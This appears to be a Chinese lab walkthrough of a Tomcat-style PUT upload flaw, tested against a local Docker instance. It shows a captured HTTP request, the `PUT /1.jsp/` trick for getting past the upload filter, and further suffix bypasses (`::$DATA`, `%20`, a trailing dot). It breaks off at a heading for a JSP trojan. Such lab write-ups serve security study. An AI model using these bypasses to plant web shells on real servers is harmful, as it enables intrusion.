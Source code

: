 ```
docker ps -s
```

![image-20240716145241365](https://image.201068.xyz/assets/image-20240716145241365.png)

##### 访问8080端口

http://192.168.70.14:8080

![image-20240716145420820](https://image.201068.xyz/assets/image-20240716145420820.png)

#### burpsuite抓包

```
GET / HTTP/1.1
Host: 192.168.70.14:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close


```

##### 改包

修改第一行为`PUT`和增加PUT**请求体**

在`.jsp`后加入`/`，变成`.jsp/`可绕过上传限制

![image-20240716151626104](https://image.201068.xyz/assets/image-20240716151626104.png)

访问http://192.168.70.14:8080/1.jsp

![image-20240716151731135](https://image.201068.xyz/assets/image-20240716151731135.png)

#### 后缀名后加/可绕过上传

```
PUT /1.jsp/ HTTP/1.1
```

- 文件名后缀加`::$DATA`
- 上传文件后缀名加上`%20`
- 上传文件名后缀加上 `.`

#### 上传文件

##### GET方式的jsp木马
